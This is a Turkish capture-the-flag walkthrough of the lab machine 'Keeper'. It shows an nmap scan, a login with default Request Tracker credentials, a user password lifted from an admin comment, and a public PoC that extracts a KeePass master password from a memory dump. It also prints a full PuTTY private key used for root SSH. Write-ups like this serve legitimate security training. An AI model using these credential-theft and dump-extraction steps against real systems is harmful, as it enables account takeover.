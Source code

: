 ```yaml
---
search:
  boost: 2
---
```


# Keeper

## User Flag

!!! info "Target IP Address"

    10.10.11.227

Keşfe başlamak için ilk olarak aşağıdaki komut ile bir Nmap taraması gerçekleştirdim:

```bash
sudo nmap 10.10.11.227 -sS -sV -sC -oN nmap
```

```text title="Output" hl_lines="6 10"
Starting Nmap 7.94 ( https://nmap.org ) at 2024-02-01 03:21 +03
Nmap scan report for 10.10.11.227
Host is up (0.86s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 986.28 seconds
```

Tarama sonuçlarında 80 numaralı port açık olarak gözükmektedir. Bu bilgiden hareketle, siteyi bir web tarayıcısında ziyaret etmeyi düşündüm. URL kısmına IP adresini girerek siteye gittiğimde karşıma çıkan sayfada aşağıdaki mesaj ile karşılaştım:

```text
To raise an IT support ticket, please visit tickets.keeper.htb/rt/
```

Ardından aşağıdaki adresleri `/etc/hosts` dosyasına ekledim:

```bash
echo -e "10.10.11.227 keeper.htb\n10.10.11.227 tickets.keeper.htb" | sudo tee -a /etc/hosts
```

Mesajda bahsedilen adrese gittiğimde bir Login sayfasıyla karşılaştım:

![](../assets/images/keeper/rt-login-page.png)

Kısa bir Google aramasından sonra Request Tracker [wiki](https://rt-wiki.bestpractical.com/wiki/ManualBasicAdministration#CREATE_USERS) adresinde, sisteme girişte kullanılan varsayılan kullanıcı adı (`root`) ve varsayılan parola (`password`) bilgisini öğrendim ve bu bilgileri kullanarak Login gerçekleştirebildim:

![](../assets/images/keeper/rt-at-a-glance.png)

Bu ekranda `Search` --> `Tickets` --> `Recently Viewed` sekmesinde `#300000: Issue with Keepass Client on Windows` isimli bir Ticket ile karşılaştım. Bu Ticket içeriğine baktığımda, Lise Nørgaard (`lnorgaard`) isimli bir kullanıcının KeePass yazılımı hakkındaki bir e-mail konuşmasına rastladım:

![](../assets/images/keeper/ticket-300000.png)

Aynı ekranda `Admin` --> `Users` sekmesinde Lise Nørgaard kullanıcısının bilgilerine baktığımda, yorumlar kısmında kullanıcının parola bilgisini öğrendim:

![](../assets/images/keeper/user-password.png)

Elde ettiğim kullanıcı adı (`lnorgaard`) ve parola (`Welcome2023!`) bilgisi ile bir SSH bağlantısı gerçekleştirdim:

```bash
ssh lnorgaard@10.10.11.227
```

Bağlantı kurulduktan sonra aşağıdaki komut ile kullanıcı bayrağını elde edebildim:

```bash
cat ~/user.txt
```

## Root Flag

SSH bağlantısı gerçekleştirdiğim kullanıcının ev dizininde `#!bash ls` komutunu çalıştırdığımda, bayrak dosyası dışında bir ZIP dosyası ile karşılaştım:

```bash
ls
```

```text title="Output"
RT30000.zip  user.txt
```

ZIP dosyasını arşivden çıkardığımda 2 adet dosya ile daha karşılaştım (bu dosyaları sonrasında Python HTTP sunucusu yardımıyla kendi sistemime indirdim):

```bash
unzip RT30000.zip && ls
```

```text title="Output"
KeePassDumpFull.dmp  RT30000.zip  passcodes.kdbx  user.txt
```

Bu dosyalardan `passcodes.kdbx` dosyasının tipini kontrol ettiğimde bu dosyanın, KeePass 2.x yazılımına ait bir veri tabanı dosyası olduğunu öğrendim:

```bash
file passcodes.kdbx
```

```text title="Output"
passcodes.kdbx: Keepass password database 2.x KDB
```

Kısa bir Google aramasından sonra, KeePass Dump dosyasından ana parolayı elde etmeyi sağlayan bir [PoC](https://github.com/vdohney/keepass-password-dumper) ile karşılaştım.

Bu kodu kullanabilmek için `#!bash dotnet` aracı da gerekiyordu, bu sebeple [bu](https://dotnet.microsoft.com/en-us/download/dotnet/thank-you/sdk-7.0.405-linux-x64-binaries) siteden yardım alarak ilk önce bu aracın kurulumunu gerçekleştirdim.

Ardından PoC kodunu repodan bilgisayarıma klonlayıp, klonlanan dizine geçiş yaptım (gerekli):

```bash
git clone https://github.com/vdohney/keepass-password-dumper && cd keepass-password-dumper
```

Aşağıdaki komut ile Dump dosyasından ana parolayı elde etmeyi denedim:

```bash
~/dotnet run ~/KeePassDumpFull.dmp
```

```text title="Output"
...SNIP...

Password candidates (character positions):
Unknown characters are displayed as "●"
1.: ●
2.: ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M,
3.: d,
4.: g,
5.: r,
6.: ø,
7.: d,
8.:  ,
9.: m,
10.:    e,
11.:    d,
12.:     ,
13.:    f,
14.:    l,
15.:    ø,
16.:    d,
17.:    e,
Combined: ●{ø, Ï, ,, l, `, -, ', ], §, A, I, :, =, _, c, M}dgrød med fløde
```

Çıktının en sonunda `Combined` olarak verilen karakterler (`●` + `süslü parantezler içindeki karakterlerden bir karakter` + `dgrød med fløde`) parola olmalıydı. Fakat en başta bilinmeyen bir karakter (`●`) ve süslü parantezler içindeki karakterlerden bir karakter tam olarak bilinmediği için parola bilgisi eksikti.

Daha öncesinde kullanıcı bilgilerine bakarken, kullanıcının Danimarkalı olduğunu öğrenmiştim:

![](../assets/images/keeper/danish-user.png)

Bu ipucundan faydalanarak bulunan karakterleri Google üzerinde arattığımda, Google bana `dgrød med fløde` --> `rødgrød med fløde` önerisinde bulundu.

Bunun ardından doğru parolayı bulmuş olabileceğimi düşünerek keşfe devam ettim.

Yine kısa bir Google aramasından sonra [https://app.keeweb.info](https://app.keeweb.info) sitesi ile karşılaştım. Bu siteye `passcodes.kdbx` dosyasını yükleyip parola olarak `rødgrød med fløde` bilgisini verdiğimde, veri tabanını başarılı bir şekilde deşifre edebildim:

```text title="Output"
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

Bu çıktıyı `key.ppk` isimli bir dosyaya kaydettim ve dosyanın izinlerini güncelledim:

```bash
chmod 0644 ~/key.ppk
```

Ardından Linux için PuTTY aracını yükledim:

```bash
sudo apt update && sudo apt install putty-tools
```

Bunun ardından aşağıdaki komut yardımıyla dosya formatını PuTTY --> OpenSSH olarak değiştirdim:

```bash
puttygen ~/key.ppk -O private-openssh -o ~/key
```

Elde edilen dosyayı kullanarak `root` kullanıcısı için bir SSH bağlantısı gerçekleştirdim:

```bash
ssh root@10.10.11.227 -i ~/key
```

Bağlantı kurulduktan sonra aşağıdaki komut ile `root` bayrağını elde edebildim:

```bash
cat ~/root.txt
```
